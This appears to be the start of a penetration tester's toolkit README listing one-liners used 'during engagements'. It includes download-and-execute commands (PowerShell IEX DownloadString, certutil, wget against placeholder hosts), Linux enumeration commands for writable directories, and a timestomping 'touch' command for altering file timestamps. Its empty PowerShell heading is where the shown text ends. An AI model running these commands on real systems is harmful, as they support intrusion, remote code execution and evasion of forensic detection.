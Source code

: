 # Toolkit
A collection of scripts / payloads and so on which I have found to be helpful during engagements.

## One-Liners

### File download
`powershell (New-Object System.Net.WebClient).DownloadFile('https://domain.com/file.exe', 'file.exe')`  
`powershell IEX (New-Object System.Net.WebClient).DownloadString('http://127.0.0.1/file.exe')`  
`certutil.exe -urlcache -f https://domain.com/file.exe file.exe`  
`wget https://domain.com/file.exe -o file.exe`  
`wget --ftp-user=User --ftp-password=ftp://127.0.0.1/file.exe -o file.exe`  

### Bash
| Command | Description |
|-----------------------------------------|----------------------------------------------------------|
| `find / -perm -222 -type d 2>/dev/null` | Prints all the directories the user has write access to. |
| `find / -type f -group [GROUP] 2>/dev/null` | Prints any special permissions for GROUP. |
| `touch -a -m -t 202104251300.10 [FILE]` | Change access / last modified time of FILE to 25/04/2021 13:00.10 |
|||

### PowerShell
